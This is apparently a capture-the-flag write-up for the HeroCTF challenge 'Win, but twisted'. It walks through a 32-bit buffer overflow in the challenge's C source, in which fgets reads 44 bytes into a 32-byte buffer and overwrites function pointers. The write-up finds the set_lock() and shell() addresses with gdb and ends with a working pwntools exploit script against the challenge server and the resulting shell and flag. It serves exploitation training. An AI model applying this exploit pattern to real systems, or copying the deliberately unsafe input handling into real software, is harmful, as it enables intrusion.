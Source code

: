 # Win, but twisted

#### So we got two files
- [WinButTwisted.c](files/WinButTwisted.c) (source code)
- [WinButTwisted](files/WinButTwisted) (binary file)

#### and this message :

```
Just a little warm up, but hey, without the twist it would've been too simple.
Get the flag from the server.

Challenge : nc pwn.heroctf.fr 9003

Format : Hero{}

Author : iHuggsy
```
#

#### First thing we do is to run the program :
```console
$ ./WinButTwisted 
What would a hero say ?
>>> Hello
It looks like that s something a Hero would say
Please keep being one. :)
```

#### by also testing its limits :
```console
$ ./WinButTwisted 
>>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Erreur de segmentation (core dumped)
```
#### We therefore understand that the size of the input buffer is not protected against buffer overflow attacks. 

#

#### To explain quickly, the buffer overflow works by overflowing the stack and will, by a function return, overwrite the old value of EIP (instruction pointer) and will therefore jump to the address we have injected.

![buffer overflow explanation image](images/buffer_overflow_schema.png "buffer overflow explanation")

#

#### To go further we can look at several other information like:
- the basic information of the file :
```
$ file WinButTwisted
WinButTwisted: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=30d5731a2385816deab25ce8684e2de08b24846f, for GNU/Linux 4.4.0, not stripped
```
- the exif data of the file to see the order in which the memory addresses are encoded :
```
$ exiftool WinButTwisted
ExifTool Version Number         : 11.88
File Name                       : WinButTwisted
Directory                       : .
File Size                       : 712 kB
File Modification Date/Time     : 2021:04:23 22:39:21+02:00
File Access Date/Time           : 2021:04:26 12:25:50+02:00
File Inode Change Date/Time     : 2021:04:23 22:42:06+02:00
File Permissions                : rwxrwxrwx
File Type                       : ELF executable
File Type Extension             : 
MIME Type                       : application/octet-stream
CPU Architecture                : 32 bit
CPU Byte Order                  : Little endian
Object File Type                : Executable file
CPU Type                        : i386

```

- if the stack is executable :
```console
$ readelf -l WinButTwisted | grep GNU_STACK
Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flag Align
GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW   0x10
```

#### With all this, we now know that :
- it is an ELF file
- it is statically linked (all library functions will be embedded in the binary file)
- it is not stripped (so variable/function names are kept, which will simplify our task)
- it is in Little Endian (order of writing bytes in memory, ex: 0xdeadbeef is written in memory \xef\xbexad\xde)
- the stack is not executable because there is no E flag (preventing the execution of code injected on the stack)

#

#### So now we read the C code of the file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int UNLOCKED = 0;

void set_lock()
{
    printf("Setting lock !");
    UNLOCKED = 1;
}

void shell()
{
    printf("In shell function ! ");
    if (UNLOCKED == 1)
    {
        printf("Getting shell ! ");
        setreuid(geteuid(), geteuid());
        system("/bin/sh");
    }

    
}

void hello_hero(int hero)
{
    printf("It looks like that's something a Hero would say\n");
}

void look_like()
{
    printf("Please keep being one. :)\n");
}

int main()
{
    int (*look)() = look_like;
    int (*hello)() = hello_hero;
    char buffer[32];

    printf("What would a hero say ?\n>>> ");
    fgets(buffer, 44, stdin);
    hello();
    look();

}
```

#### We quickly understand that the final goal is to run the shell() function. But to achieve this we can see that this requires the shell to be "unlocked" by first running the set_lock() function.

#### So we have our running order of things :
``` 
[make the buffer go over with A] [set_lock() address] [shell() address]
```

#### To find out how many A we have to put in to overflow the buffer, we look at the buffer size in the code. We have this :

```c
char buffer[32];
```

#### Now that we have the size of the buffer, all we need to do is find the addresses of shell() and set_lock(). To do this we will run gdb :

```console
$ gdb WinButTwisted
gef➤  info function shell 
All functions matching regular expression "shell":

Non-debugging symbols:
0x08049999  shell
gef➤  info functions set_lock 
All functions matching regular expression "set_lock":

Non-debugging symbols:
0x08049965  set_lock
```

#### Ok, now that we have all the information we need to solve the challenge, we write ourselves a little Python script to flag the challenge

```python
#!/bin/python3

from pwn import remote, p32,log

r = remote('pwn.heroctf.fr', 9003)

#32 character a to fill buffer and overflow
payload = b'a' * 32
#the address of the set_lock function (0x08049965)
payload += p32(0x08049965)
#the address of the shell function (0x08049999)
payload += p32(0x08049999)
#displays the payload
print(payload)

r.recvuntil('>>>')
r.sendline(payload)
r.interactive()
```

#### And that's it, we get the flag : Hero{Tw1sT3D_w1N_FuNcTi0N}

```console
$ ./solver.py 
[+] Opening connection to pwn.heroctf.fr on port 9003: Done
b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaae\x99\x04\x08\x99\x99\x04\x08'
[*] Switching to interactive mode
 Setting lock !In shell function ! Hero{Tw1sT3D_w1N_FuNcTi0N}  [*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to pwn.heroctf.fr port 9003
[*] Got EOF while sending in interactive
```

